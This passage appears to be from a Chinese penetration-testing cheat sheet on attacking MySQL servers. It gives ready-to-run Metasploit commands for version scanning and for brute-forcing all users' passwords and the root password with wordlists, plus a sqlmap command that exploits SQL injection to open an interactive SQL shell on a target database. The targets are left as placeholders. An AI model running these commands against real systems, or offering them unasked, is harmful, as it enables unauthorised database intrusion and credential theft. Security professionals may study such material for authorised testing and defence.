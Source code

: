 开始搜索

```bash
# 进入
sudo msfconsole
# 依次输入如下命令
# 扫描 MySQL 版本信息
use auxiliary/scanner/mysql/mysql_version
# 设置目标IP
set rhosts <ip>
# 运行所有模块
run
```



##### SQLMap

[SQLMap](https://www.kali.org/tools/sqlmap/) 是一种用于自动化检测和利用 SQL 注入漏洞的开源工具。SQL Shell 命令是 SQLMap 中的一个特性，它可以让你在被攻击的数据库服务器上执行 SQL 语句。

常用命令

```bash
sqlmap -u URL --sql-shell
```

其中，URL 是你想要测试的目标网站的地址。当你运行这条命令时，SQLMap 将会尝试检测目标网站是否存在 SQL 注入漏洞，如果检测到漏洞，它会**自动利用漏洞进入数据库服务器**，并给你一个**交互式的 SQL Shell**。

在 SQL Shell 中，你可以**输入任意的 SQL 语句**，并查看执行结果。例如，你可以输入 SELECT * FROM users; 来查看数据库中所有用户的信息。



### 密码破解

#### 暴力破解

##### MSF

使用指定密码字典 /tmp/password.txt 进行爆破，推荐：[爆破字典](https://github.com/rootphantomer/Blasting_dictionary)

爆破所有用户密码

```bash
use auxiliary/scanner/mysql/mysql_login
set rhosts <ip>
set pass_file /tmp/password.txt
set user_file /tmp/username.txt
run
```

爆破根用户密码

```bash
use auxiliary/scanner/mysql/mysql_login
set rhosts <ip>
set pass_file /tmp/password.txt
set username root
run
```

